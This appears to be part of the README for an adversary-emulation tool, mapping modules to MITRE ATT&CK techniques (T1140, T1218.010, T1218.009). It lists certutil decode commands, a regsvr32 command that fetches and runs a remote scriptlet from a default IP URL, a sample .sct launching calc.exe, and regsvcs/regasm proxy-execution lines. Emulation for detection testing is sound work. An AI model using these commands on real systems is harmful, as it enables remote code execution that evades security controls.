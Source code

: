This module uses the CreateProcess Win32 API to execute

```cmd
certutil.exe -decode $filePath xxxx.exe
```

#### Parameters

| **Parameter** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| filePath      | 需要解码的文件路径，默认.\file\T1140.txt，解码后的文件会保存在相同目录并将后缀改成exe |



### [T1218.010](https://attack.mitre.org/techniques/T1218/010/) - Signed Binary Proxy Execution: Regsvr32

This module uses the CreateProcess Win32 API to execute

```cmd
regsvr32.exe /u /n /s /i:$url scrobj.dll
```

下载payload.sct并执行，内容可参考下面

```xml
<?XML version="1.0"?>
<component id="TESTING">
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe");
    ]]>
</script>
</registration>
</component>
```

#### Parameters

| **Parameter** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| url           | 下载恶意文件的url, 默认http://100.1.1.169:8080/T1218.010.sct |



### [T1218.009](https://attack.mitre.org/techniques/T1218/009/) - Signed Binary Proxy Execution: Regsvcs/Regasm

This module uses the CreateProcess Win32 API to execute

````cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U $filePath
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U $filePath
````
